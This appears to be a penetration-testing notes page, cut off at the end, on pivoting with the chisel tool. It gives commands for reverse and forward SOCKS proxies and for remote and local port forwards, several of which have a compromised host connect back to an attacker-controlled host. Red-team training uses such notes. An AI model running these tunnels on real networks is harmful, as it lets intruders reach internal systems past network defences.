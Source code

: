 on compromised host:

```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

what does this do?

* Set up a chisel listening server
* Use chisel on victim machine to connect back and set up a tunnel
* After connection is successfully established, you should get some message saying what port the proxy is listening to.

### forward socks proxy

on compromised host:

```bash
./chisel server -p LISTEN_PORT --socks5
```

on attacker box:

```bash
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

* `TARGET_IP` - IP of compromised host
* `LISTEN_PORT` - the listening port of chisel server on compromised host
* `PROXY_PORT` - the port that will be opened on our attacker box

with a forward proxy, you need to set your PROXY_PORT to whatever is in your proxychains config

### remote port forward

on attacker box:

```bash
./chisel server -p LISTEN_PORT --reverse &
```

on compromised host:

```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

* `LOCAL_PORT` - port we want to open on attacking machine to link with target port
* `TARGET_IP:TARGET_PORT` - the target that we want to forward connections to
* `LISTEN_PORT` - this port is used to establish the chisel server

### local port forward

on compromised host:

```bash
./chisel server -p LISTEN_PORT
```

on attacker box:
